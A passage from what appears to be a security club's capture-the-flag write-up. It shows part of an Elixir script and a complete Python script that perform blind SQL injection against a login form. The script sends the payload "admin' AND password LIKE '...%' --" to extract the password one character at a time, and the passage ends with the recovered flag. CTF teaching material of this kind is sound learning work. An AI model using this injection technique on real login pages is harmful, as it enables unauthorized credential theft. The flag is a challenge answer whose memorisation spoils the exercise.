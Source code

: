 ```elixir
    response.status
  end

  def get_chars do
    a_z = for x <- ?a..?z, do: <<x>>
    capA_Z = for x <- ?A..?Z, do: <<x>>
    numbers = for x <- ?0..?9, do: <<x>>
    a_z ++ capA_Z ++ numbers ++ ["{", "}", "_"]
  end
end

IO.puts(Sqli.find_password(""))
```

If you are more familar with Python, here is the script that Jason wrote.
```python
import requests, string, json
current = "flag{"
alpha = string.ascii_lowercase+string.digits+"{}_"
while 1:
    for c in alpha:
        pw = current+c
        good = False
        while 1:
            print(pw)
            res = requests.post("http://xn--158h.blairsec.mbhs.edu/login",data={"username":f"admin' AND password LIKE '{pw}%' -- j","password":"f"})
            if res.status_code == 400:
                # we messed up
                break
            elif res.status_code == 200:
                # good
                current = pw
                good = True
                break
        if good: break
    else:
        print(current)
        break
```

Flag: `flag{y0ur_fl4g_1s_r1ght_h3r3}`

See you at the next meeting!
~ Alexa :)